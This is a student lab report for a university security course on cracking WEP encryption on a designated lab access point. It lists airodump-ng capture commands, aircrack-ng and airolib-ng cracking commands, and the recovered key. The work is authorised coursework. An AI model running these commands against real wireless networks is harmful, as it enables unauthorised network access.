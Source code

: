 <div class='titlePage'>

# CSE 4820 Lab 2
#### WEP/WPS/WPA(2) Vulnerabilities
##### Grant Butler, Jerrel Gordon
</div>

[TOC]

<div class="pageBreak"></div>

#### Task 1: WEP Hacking
##### a: Find AP with WEP

FITSec-Target-2 has WEP

@import "assets/network_types.png"

Using this command to capture a cap file:

```bash
sudo airodump-ng -c 9 --bssid 00:0F:66:89:B5:ED -w wep-attack wlan0mon
```

We should have been able to crack it with this:
```bash
sudo aircrack-ng -b 00:0F:66:89:B5:ED wep-attack-01.cap
```

But, unfortunately the WEP station stopped working while we were in lab.

Instead, Kourtnee supplied the class with a pcap file after class, so the exploit was done with the following commands:

@import "assets/generating_hashes.png"

Using `airolib-ng` to make a database of hashes with the ESSID and wordlist given, the following command was used to crack WEP:

```bash
aircrack-ng -r wep-db wep.pcap
```



Which returned the key for that specific network:
 `KEY FOUND! [ DE:FE:4D:53:00 ]`

@import "assets/wep_cracked.png"
